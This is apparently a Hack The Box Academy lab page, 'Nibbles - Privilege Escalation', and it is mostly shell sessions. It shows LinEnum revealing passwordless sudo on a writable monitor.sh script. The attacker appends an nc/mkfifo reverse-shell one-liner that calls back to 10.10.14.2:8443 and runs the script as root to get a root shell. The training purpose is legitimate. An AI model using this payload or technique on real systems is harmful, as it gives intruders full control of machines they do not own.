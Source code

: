 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/77/section/853
// Platform Version: V1
// Module ID: 77
// Module Name: Getting Started
// Module Difficulty: Fundamental
// Section ID: 853
// Section Title: Nibbles - Privilege Escalation
// Page Title: Hack The Box - Academy
// Page Number: 18
-->

# Nibbles - Privilege Escalation

**Module Name:** Getting Started **Page Number:** 18

#### 

#### GETTING STARTED

# Nibbles - Privilege Escalation

``` shell-session
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

``` shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh

cat monitor.sh
                 ####################################################################################################

                 #                                        Tecmint_monitor.sh                                        #

                 # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #

                 # If any bug, report us in the link below                                                          #

                 # Free to use/edit/distribute the code below by                                                    #

                 # giving proper credit to Tecmint.com and Author                                                   #

                 #                                                                                                  #

                 ####################################################################################################

#! /bin/bash

# unset any variable which system may be using

# clear the screen

clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
       case $name in
         i)iopt=1;;
         v)vopt=1;;
         *)echo "Invalid arg";;
       esac
done

 <SNIP>
```

``` shell-session
[!bash!]$ sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -
```

``` shell-session
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```

``` shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```

``` shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
```

``` shell-session
[!bash!]]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# id

uid=0(root) gid=0(root) groups=0(root)
```

# 

# 

#### Questions

####